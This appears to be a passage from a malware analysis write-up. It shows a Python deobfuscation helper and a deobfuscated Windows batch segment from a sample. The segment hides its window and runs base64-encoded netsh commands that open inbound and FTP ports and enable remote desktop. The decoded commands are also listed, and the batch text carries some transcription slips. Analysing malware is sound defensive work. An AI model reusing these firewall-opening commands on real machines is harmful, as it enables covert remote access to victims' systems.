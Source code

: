 
This seems pretty simple, all this does is check in the code for the characters defined in "hi".
Replace them with the correct one from "lo".
We can actually write a quick python script to deobfuscate this:

```python
def wtf(text):
	count = 0
	for x in searchChar:
		print("Checking :" + searchChar[count] +"--"+realChar[count])
		text = text.replace(searchChar[count],realChar[count])
		count = count + 1
	return text
```



## Analysis of deobfuscated Batch Segments
### Analysis of deobfuscated ":i"

```bash
@echo off
@set pathes = ~dp0pushd pathes

cd temp
cmdow @ /hid
set "string=bmV0c2ggYWR2ZmlyZXdhbGwgZmlyZXdhbGwgYWRkIHJ1bGUgbmFtZT0nQkMnIGRpcj1pbiBhY3Rpb249YWxsb3cgcHJvdG9jb2w9VENQIGxvY2FscG9ydD01MTUwMA=="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string"""^)^)') do set "decoded=i"start /b decoded >nul

set "string =bmV0c2ggYWR2ZmlyZXdhbGwgZmlyZXdhbGwgYWRkIHJ1bGUgbmFtZT0nRlRkJyBkaXI9b3V0IGFjdGlvbj1hbGxvdyBwcm90b2NvbD1UQ1AgbG9jYWxwb3J0PTIw"
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string2"""^)^)') 
do set "decoded2=i"start /b decoded2 >nul

set "string3=bmV0c2ggYWR2ZmlyZXdhbGwgZmlyZXdhbGwgYWRkIHJ1bGUgbmFtZT0nRlRjJyBkaXI9b3V0IGFjdGlvbj1hbGxvdyBwcm90b2NvbD1UQ1AgbG9jYWxwb3J0PTIx"
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string3"""^)^)') do 
set "decoded3=i"start /b decoded3 >nul
set "string111=bmV0c2ggYWR2ZmlyZXdhbGwgZmlyZXdhbGwgc2V0IHJ1bGUgZ3JvdXA9InJlbW90ZSBkZXNrdG9wIiBuZXcgZW5hYmxlPXllcw=="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string111"""^)^)') do 
set "decoded111=i"start /b decoded111 >nul
timeout /t 3 > nul
goto axel
```

Decoded base64 strings:
```bash
netsh advfirewall firewall add rule name='BC' dir=in action=allow protocol=TCP localport=51500
netsh advfirewall firewall add rule name='FTd' dir=out action=allow protocol=TCP localport=20
netsh advfirewall firewall add rule name='FTc' dir=out action=allow protocol=TCP localport=21
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```
* We already identified these actions.
